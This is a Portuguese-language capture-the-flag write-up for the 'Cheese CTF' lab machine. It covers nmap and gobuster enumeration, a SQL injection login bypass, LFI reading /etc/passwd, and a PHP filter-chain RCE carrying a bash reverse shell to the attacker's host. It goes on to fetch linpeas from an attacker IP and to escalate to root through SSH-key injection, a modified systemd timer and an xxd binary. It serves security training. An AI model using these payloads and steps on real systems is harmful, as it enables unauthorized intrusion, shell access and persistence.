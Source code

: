 # _**Cheese CTF**_
![](cheese.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)
Vamos encontrar outra maneira de enumerar este endereço  
> ```bash
> nmap --open -sV -O [ip_address]
> ```
![](scan_nmap2.jpg)
Temos praticamente todas as portas com algum serviço!  
Não conseguiremos investigar tudo, então vamos procurar em algumas portas padrão como a 80  
Parece que temos um website  
Vamos tentar enumerar com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Investigando o site também, parece que encontramos um link para uma página de login 

## _**Ganhando acesso**_

![](login_page.jpg)

Apesar de sabermos da página, não podemos realizar muito com ela sem pista de usuário ou até mesmo senha  
Investigando a maioria dos resultados HTTP, nada de útil foi encontrado  
Procurando algumas soluções, encontrei a dica de tentar <mark>SQL Injection</mark> por não ter usuário ou senha  
> ```bash
> ' || '1'='1';-- -
> ```
![](login_success.jpg)

Conseguimos entrar na página de administrador, vamos investigar  
O endereço URL parece responder a um _script .php_, vamos ver se retorna algum arquivo interessante  

![](script_return.jpg)

Temos retorno de _/etc/passwd_  
Após algum tempo tentando obter um shell através de LFI e também tentativas de RCE, conseguimos através da seguinte tentativa  
Primeiro, vamos criar nossa shell através do link:
> ```bash
> git clone https://github.com/synacktiv/php_filter_chain_generator.git && cd php_filter_chain_generator && clear && ls
> ```
Na descrição desse serviço, temos:  
_<mark>Uma CLI para gerar uma cadeia de filtros PHP, obtenha seu RCE sem fazer upload de um arquivo se você controlar inteiramente o parâmetro passado para um require ou include no PHP!</mark>_  
Em seguida, vamos utilizar o comando abaixo para gerar nosso _payload_  
> ```bash
> python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1\"'); ?>" | grep "^php" > payload.txt
> ```

Agora, vamos utilizar de ```curl``` para conseguirmos obter um _shell_  
> ```bash
> curl "http://[ip_address]/secret-script.php?file=$(cat payload.txt)"
> ```
![](shell.jpg)

Vamos investigar _/home_ para ver o que encontramos  
Temos _user.txt_, mas sem permissões para ler seu conteúdo  

## _**Escalando privilégios**_
Primeiro, vamos buscar ```linpeas.sh``` via ```curl```
> ```bash
> curl http://10.9.3.253:9000/linpeas.sh -o /tmp/linpeas.sh
> ```
Em seguida, damos as permissões e executamos  
Após, vamos procurar uma maneira de conseguir escalar privilégios  
Encontramos o seguinte trecho

![](lin_ssh.jpg)

Vamos explorar!  
Primeiro, em nossa máquina, criamos uma achave _SSH_  
> ```bash
> ssh-keygen -t rsa
> ```
Siga as etapas de procedência  
Execute os dois comandos abaixo, o primeiro em sua máquina, o segundo na máquina alvo  
> ```bash
> cat [filename].pub
> echo 'cat [filename].pub result' >> /home/comte/.ssh/authorized_keys
> ```
Por fim, faça login como ```comte``` via SSH  
> ```bash
> ssh -i comte comte@[ip_address]
> ```
![](login_ssh.jpg)

Do resultado anterior de ```linpeas```, temos:  

![](exploit_time.jpg)

Podemos executar ```systemctl``` e modificar um arquivo chamado _exploit.timer_, que pode ser usado para executar um serviço de exploit  
Vamos alterar _/etc/systemd/system/exploit.timer_  

![](time_altered.jpg)

Ele irá disparar o xxd quando o executarmos  

![](gftobins.jpg)

De acordo a imagem acima, podemos obter privilégios de _root_ escrevendo a chave SSH que geramos com acesso ao binário xxd  
> ```bash
> sudo systemctl daemon-reload
> sudo /bin/systemctl start exploit.timer
> echo 'cat [filename].pub result' | xxd | /opt/xxd -r - "/root/.ssh/authorized_keys
> ```

Agora, emo nossa máquina, vamos realizar login novamente via SSH
> ```bash
> ssh -i comte root@[ip_address]
> ```
![](root.jpg)

Basta ir atrás das flags!
